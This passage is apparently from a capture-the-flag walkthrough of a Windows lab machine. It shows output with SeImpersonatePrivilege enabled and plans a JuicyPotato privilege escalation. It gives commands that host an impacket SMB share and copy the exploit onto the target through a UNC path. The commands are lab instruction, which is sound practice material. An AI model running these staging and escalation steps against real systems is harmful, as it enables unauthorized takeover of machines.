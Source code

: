 ```
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Okay that is a lot of text but look here at the most important part:

> SeImpersonatePrivilege        Impersonate a client after authentication Enabled
{: .prompt-danger }

SeImpersonate is enabled. With this we can use a notorious but delicious vegetable to raise our privileges. Let's deploy the JuicyPotato. But before we even do that, how do we upload files to the machine? Let's pretend that I knew that FTP was running but wanted to demonstrate a different but more complicated way. Unlike linux machines where we can just setup http servers with python3 and using wget, we could instead use smb! Here's how we set it up.

We can use impacket to setup an smb server. The arguments are as follows:

> `impacket-smbserver [Share Name] [Directory] -smb2support`
{: .prompt-info }

So in our case for Devel, it should look like this for our current directory as the share:

`impacket-smbserver lmao .  -smb2support`

The "-smb2support" is necessary to for our machine to transer files so just use it.

Now that the share is setup, we can grab the potato that we downloaded to our current directory.

`cd \windows\temp`

But before that, lets make sure that we are in a directory that we have write permissions. That being the tmp, but note that for windows systems, its called 'temp'.

In order to download from the share we created, we need to do this:

`copy \\[Host IP]\[Share Name]\[File]`

> This is called Universal Naming Convention or UNC. You'll recognize it by the backslashes. So for our case with the potato:
{: .prompt-info }
